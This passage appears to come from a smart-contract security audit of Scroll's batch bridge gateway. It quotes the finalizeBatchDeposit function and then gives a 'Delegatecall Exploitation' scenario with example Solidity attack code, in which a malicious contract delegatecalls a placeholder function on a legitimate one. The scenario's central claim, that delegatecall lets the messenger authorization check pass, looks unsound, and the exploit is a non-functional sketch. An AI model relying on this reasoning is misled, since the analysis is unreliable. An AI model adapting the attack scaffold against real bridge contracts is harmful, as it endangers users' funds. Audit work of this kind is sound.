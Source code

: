 ```solidity
// File: /home/ubuntu/scroll-contracts/src/batch-bridge/L2BatchBridgeGateway.sol (Lines 142-156)
function finalizeBatchDeposit(
    address l1Token,
    address l2Token,
    uint256 batchIndex,
    bytes32 hash
) external onlyMessenger {
    if (counterpart != IL2ScrollMessenger(messenger).xDomainMessageSender()) {
        revert ErrorMessageSenderNotCounterpart();
    }

    // trust the messenger and update `tokenMapping` in first call
    address storedL1Token = tokenMapping[l2Token];
    if (storedL1Token == address(0) && l1Token != address(0)) {
        tokenMapping[l2Token] = l1Token;
    } else if (storedL1Token != l1Token) {
        // this usually won't happen, check just in case.
        revert ErrorL1TokenMismatched();
    }

    batchHashes[l2Token][batchIndex] = hash;

    emit FinalizeBatchDeposit(l1Token, l2Token, batchIndex);
}
```

### 4.4 Delegatecall Exploitation

#### Scenario Details:

1. Attacker deploys contracts as in previous scenarios
2. `MaliciousL1Contract` uses delegatecall to call a legitimate contract
3. The legitimate contract checks `xDomainMessageSender` for authorization
4. The check passes because the storage context is preserved during delegatecall
5. The legitimate contract executes privileged operations with the attacker's logic

#### Example Exploit Code:

```solidity
// MaliciousL1Contract.sol with delegatecall
contract MaliciousL1Contract {
    address public legitimateContract;
    
    constructor(address _legitimateContract) {
        legitimateContract = _legitimateContract;
    }
    
    function execute() external {
        // During this call, xDomainMessageSender is set to MaliciousL2Contract
        
        // Delegatecall to legitimate contract
        (bool success, ) = legitimateContract.delegatecall(
            abi.encodeWithSignature("someFunction(address,uint256)", address(this), 1000000)
        );
        require(success, "Delegatecall failed");
    }
}
```
